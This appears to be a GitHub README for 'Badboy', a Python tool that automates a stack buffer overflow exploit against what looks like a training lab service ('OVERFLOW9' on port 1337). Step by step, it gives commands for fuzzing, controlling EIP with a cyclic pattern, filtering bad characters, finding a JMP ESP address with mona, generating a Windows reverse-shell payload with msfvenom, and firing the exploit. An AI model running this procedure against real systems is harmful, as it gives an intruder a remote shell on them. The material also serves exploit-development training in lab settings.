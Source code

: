 # Badboy


## Fuzzing

In order to Fuzz the application we need to select the connection type and also supplying the IP, Port and Prefix.
The Prefix can be HTTP POST parameters or a command from a program, e.g in that context Help would be the Prefix: 
```
HELP AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```
```
python3 Badboy.py --mode fuzz -c raw-tcp [IP] [PORT] [PREFIX]
```
![Fuzzing](img/fuzz.png)
## Injecting Cyclic Pattern in order to Control EIP
From the previous step, we can see that the service crashed at 1500 bytes.
I then decided to generate a cyclic pattern of 1600 bytes (100 bytes more), just in case.
```
msf-pattern_create -l 1600 | python3 Badboy.py --mode inject -c raw-tcp 10.10.112.205 1337 "OVERFLOW9" --cpattern 1
```
![Inject Cyclic PAttern](img/inject-a-cyclic-pattern-from-stdin.png)

After having injected the cyclic pattern, we can see that the EIP value is being affected, copy the value in EIP
and supply it to **msf-pattern_offset**

![Get Cyclic PAttern](img/get-cyclic-char-in-eip.png)
```
msf-pattern_offset -l 1600 -q "35794234"
```
![Get Offset](img/get-offset-from-cyclic-chars.png)

Now that we have found the correct offset, we can supply it to Badboy, to check if EIP will hold the value "CCCC" or "43434343"
```
python3 Badboy.py --mode inject -c raw-tcp 10.10.112.205 1337 "OVERFLOW9" -off 1514
```
![Check Offset](img/checking-offset-for-eip.png)

By default if you have the good offset, Badboy will put the character "CCCC" or "43434343" in hex in the EIP register
If you see this value, that means that you have the good offset and you have controlle EIP, you can move to the next step.
![Check controlled EIP](img/eip-controlled.png)

## Testing and Filtering Bad Char

Bad char can be filtered quickly and easily directly from the shell.
Simply start by providing the Bad char (\x00) or "00" in our case.
All Badchars needs to be coma seperated like followed : 
```
-b "00,41,2f"
```
```
python3 Badboy.py --mode inject -c raw-tcp [IP] [PORT] [PREFIX] -off [OFFSET] -b [BADCHARS] 
```
![Badchar1](img/inject-testing-badchar-1.png)

Repeat the process until every Bad chars have been filtered out.
![Badchar2](img/inject-testing-badchar-2.png)
![Badchar3](img/inject-testing-badchar-3.png)
![Badchar4](img/inject-testing-badchar-4.png)
![Badchar5](img/inject-testing-badchar-5.png)

## Finding a JMP ESP instruction
Now we need to find a JMP ESP address that doesn't contain 1 of the bad characters found earlier.
In Immunity Debugger, type the following command in the command box:
```
!mona jmp -r esp -cpb "\x00\x04\x3e\x3f\xe1"
```
![JMP ESP](img/get-jmp-esp-address-from-mona.png)
Don't forget to revert the bytes of the address, since it is little endian.
E.g : 625011d3 becomes d3115062

## Creating Shellcode
We can now generate our shellcode with every bad characters found in order to exclude them from our shellcode

```
msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=4444 EXITFUNC=thread -f c -b "\x00\x04\x3e\x3f\xe1"
```

## Trigger the Exploit 
Once you have the eliminated all the Bad chars, that you have your Offset and your have the value of EIP.
Put the Shell code in the place reserved for it in the script and fire the exploit like the screenshot below: 
```
python3 Badboy.py --mode inject -c raw-tcp 10.10.112.205 1337 "OVERFLOW9" -off 1514 -eip 'd3115062'
```
![Fuzzing](img/inject-trigger-shell.png)
